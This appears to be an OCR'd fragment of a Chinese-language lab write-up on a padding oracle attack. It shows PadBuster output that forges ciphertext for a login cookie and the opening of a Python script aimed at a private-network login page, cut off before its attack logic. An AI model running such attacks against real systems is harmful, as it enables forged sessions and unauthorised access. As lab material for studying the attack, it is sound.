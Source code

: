  ```
 -------------------------------------------------------
 ID#     Freq    Status  Length  Location
 -------------------------------------------------------
 1       1       200     1677    N/A
 2 **    255     200     15      N/A
 -------------------------------------------------------

 Enter an ID that matches the error condition
 NOTE: The ID# marked with ** is recommended :2
 Continuing test with selection 2

 [+] Success: (196/256) [Byte 8]
 [+] Success: (148/256) [Byte 7]
 [+] Success: (92/256) [Byte 6]
 [+] Success: (41/256) [Byte 5]
 [+] Success: (218/256) [Byte 4]
 [+] Success: (136/256) [Byte 3]
 [+] Success: (150/256) [Byte 2]
 [+] Success: (190/256) [Byte 1]

 Block 2 Results:
 [+] New Cipher Text (HEX): 23037825d5a1683b
 [+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

 [+] Success: (1/256) [Byte 8]
 [+] Success: (36/256) [Byte 7]
 [+] Success: (180/256) [Byte 6]
 [+] Success: (17/256) [Byte 5]
 [+] Success: (146/256) [Byte 4]
 [+] Success: (50/256) [Byte 3]
 [+] Success: (132/256) [Byte 2]
 [+] Success: (135/256) [Byte 1]

 Block 1 Results:
 [+] New Cipher Text (HEX): 0408ad19d62eba93
 [+] Intermediate Bytes (HEX): 717bc86beb4fdefe

 -------------------------------------------------------
 ** Finished ***

 [+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
 -------------------------------------------------------
 ```
 ## Python 代码替代 padbuster
 ```
 import os
 import time
 import requests
 import base64
 import urllib
 import re
 import binascii

 from Crypto.Cipher import DES
 from Crypto import Random

 # Set proxy
 proxies = {'http': 'http://127.0.0.1:8080'}

 # Set target url
 target_url = "http://192.168.56.104/login.php"

 ```